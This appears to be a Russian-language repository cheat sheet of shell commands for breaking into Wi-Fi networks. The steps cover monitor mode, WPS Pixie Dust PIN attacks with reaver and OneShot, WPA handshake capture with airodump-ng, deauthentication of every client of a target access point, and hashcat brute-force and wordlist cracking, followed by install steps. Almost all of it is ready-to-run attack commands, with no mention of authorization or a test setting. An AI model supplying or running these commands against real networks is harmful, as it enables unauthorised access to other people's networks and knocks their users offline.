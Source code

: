 #### Получение HandShake с помощью скриптов:
./1_mon.sh wlan1                                # окно 1 # Перевод интерфейса в режим монитора # device
./2_all_dump.sh wlan1                           # окно 1 # Получение списка доступных сетей    # device
./3_dump.sh wlan1 7 00:11:22:33:44:55 SSID_NAME # окно 2 # Ожидание рукопожатия                # device, channel, bssid, ssid
./4_kill.sh wlan1 00:11:22:33:44:55             # окно 3 # Деаутентификация всех клиентов      # device, bssid

#### Перевод адаптера в режим монитора:
iw dev                       # Показать wifi адаптеры
ip link set wlan1 down       # Выключить интерфейс
iw wlan1 set monitor control # Перевод интерфейса в режим монитора
ip link set wlan1 up         # Включить интерфейс

#### WPS 1 вариант:
sudo wash -i wlan1                                                         # Получение списка точек с включённым WPS
sudo reaver -i wlan1 -b 00:11:22:33:44:55 -K -vv -L -N -d 15 -T .5 -r 3:15 # Мягкий режим (Pixie Dust)
sudo reaver -i wlan1 -b 00:11:22:33:44:55 -K                               # Жёсткий режим, может вылететь таймаут (Pixie Dust)
sudo reaver -i wlan1 -b 00:11:22:33:44:55 -p 12345678                      # Подбор пароля при известном пине

#### WPS 2 вариант:
sudo wash -i wlan1                                 # Получение списка точек с включённым WPS
sudo ./oneshot.py -i wlan1 -b 00:11:22:33:44:55 -K # Pixie Dust

#### Получение HandShake:
sudo airodump-ng --manufacturer --uptime --wps wlan1               # Получение списка доступных сетей
sudo airodump-ng -c 7 --bssid 00:11:22:33:44:55 -w SSID_NAME wlan1 # Ожидание рукопожатия и сохранение HandShake в файл POINT_NAME (без расширения)
sudo aireplay-ng -0 0 -a 00:11:22:33:44:55 wlan1                   # Деаутентификация всех клиентов точки

#### Расшифровка HandShake с помощью HashCat влоб:
cap2hccapx.bin SSID_NAME-01.cap SSID_NAME.hccapx            # Конверт файла
sudo hashcat -m 2500 -a 3 SSID_NAME.hccapx ?d?d?d?d?d?d?d?d # Брутфорс 8 цифр
sudo hashcat -m 2500 -a 3 SSID_NAME.hccapx ?l?l?l?l?l?l?l?l # Брутфорс 8 букв

#### Расшифровка HandShake с помощью HashCat по словарю:
cat rockyou.txt | sort | uniq | pw-inspector -m 8 -M 63 > newrockyou.txt                        # Очистка словаря от лишних слов
sudo hashcat --force --hwmon-temp-abort=100 -m 2500 -D 1,2 -a 0 SSID_NAME.hccapx newrockyou.txt # Подбор пароля по словарю

#### Установки
sudo apt install -y python3 wpasupplicant iw wget git 
sudo apt install -y reaver
https://github.com/drygdryg/OneShot
sudo apt install -y pixiewps
https://github.com/hashcat/hashcat-utils.git
cd src
sudo make
export PATH=$PATH:~/hashcat-utils/src
https://github.com/hashcat/hashcat.git
sudo make
sudo make install
git clone git://git.kali.org/packages/wordlists.git

